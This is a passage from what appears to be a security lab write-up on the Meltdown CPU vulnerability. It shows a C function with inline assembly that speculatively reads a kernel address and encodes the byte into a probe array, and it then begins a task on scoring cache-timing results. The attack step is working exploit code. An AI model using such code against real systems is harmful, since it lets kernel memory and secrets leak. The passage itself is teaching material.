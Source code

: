 ### 6.3. Task7.3: Using Assembly Code to Trigger Meltdown

```c
void meltdown_asm(unsigned long kernel_data_addr){
  char kernel_data = 0;
  // Give eax register something to do	
  asm volatile(".rept 400;"									// loop 400 times
               "add $0x141, %%eax;"					// It only do unless computations, but according to a post discussion, these extra lines of code "give the algorithmic units something to chew while memory access is being speculated"
               ".endr;"
               :
               :
               : "eax"
              );
  // The following statement will cause an exception
  kernel_data =*(char*)kernel_data_addr;
  array[kernel_data*4096 + DELTA] += 1;
}
```

## 7. Task 8: Make the Attack More Practical

Create a score array of size 256, one element for each possible secret value.

